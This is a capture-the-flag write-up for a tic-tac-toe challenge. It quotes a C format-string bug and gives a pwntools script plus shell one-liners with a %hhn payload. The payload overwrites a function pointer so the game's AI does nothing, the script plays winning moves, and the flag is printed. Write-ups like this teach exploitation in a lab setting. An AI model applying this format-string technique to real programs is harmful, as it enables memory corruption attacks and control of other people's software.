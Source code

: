 # Tic Tac Toe - Solution

Created by [moka](https://discordapp.com/users/661109271148101652)

## Description
> Can you beat me?
<br>
`ssh ttt@challenges2.hexionteam.com -p 3004`</br>
Password: `hexctf`

## Solution
the given executable is a tic-tac-toe game where the AI is unbeatable, and to get the flag you have to win.\
but there's a format string vulnerability we can use to win.
```c
puts("Please enter your name: ");
scanf("%24s", name);
getchar();
snprintf(message, 100, "Welcome %s!\n", name);
printf(message);
```

there's a global pointer storing the function the ai uses to calculate it's next move -\
and so if we overwrite `DIFFICULTY` with the address of a ret, we can immobilize the ai, and beat it.
```c
logic_func DIFFICULTY = IMPOSSIBLE;
```
<br>\
to do that we first need to connect through ssh to the remote and run the executable,\
 then we'll send a payload that overwrite the last bit of the function's address with 0xd4\
which will make it point to ret.
```python
r = ssh('ttt', 'challenges2.hexionteam.com', 3004, password="hexctf").process('./ttt')
fmt = b'%204c%10$hhnAAAA' + p64(0x603010)
# DIFFICULTY:
# IMPOSSIBLE (0x401cd5) -> ret (0x401cd4)
r.sendlineafter(':', fmt)
```

after that we'll send winning moves (place x and then move right etc)\
and then receive the flag.
```python
r.send(' a a qn\n') # win [(x x x) (     ) (     )]
r.recvuntil('hex')
print(b'hex' + r.recvuntil('}'))
```

other cute solutions using pure python:
```python
(python -c "print b'%204c%10\$hhnAAAA' + b'\x100\`'"; cat) | ./ttt
(python3 -c "print ('%204c%10\$hhnAAAA' + '\x100\`')"; cat) | ./ttt
```
<br>

Flag: `hexCTF{h3y_th4ts_ch3at1ng}`